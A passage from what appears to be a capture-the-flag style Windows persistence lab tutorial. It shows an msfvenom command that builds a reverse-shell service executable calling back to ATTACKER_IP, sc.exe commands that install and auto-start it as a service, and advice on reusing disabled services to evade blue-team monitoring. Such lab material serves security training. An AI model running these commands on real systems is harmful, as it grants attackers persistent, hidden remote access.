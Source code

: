 - **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
        
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

This should create a connection back to your attacker's machine.

### Modifying existing services

While creating new services for persistence works quite well, the  blue team may monitor new service creation across the network. We may  want to reuse an existing service instead of creating one to avoid  detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

- **Command Prompt**        

```shell-session
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        
```

You should be able to find a stopped service called THMService3. To  query the service's configuration, you can use the following command:

- **Command Prompt**        

```shell-session
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
        
```
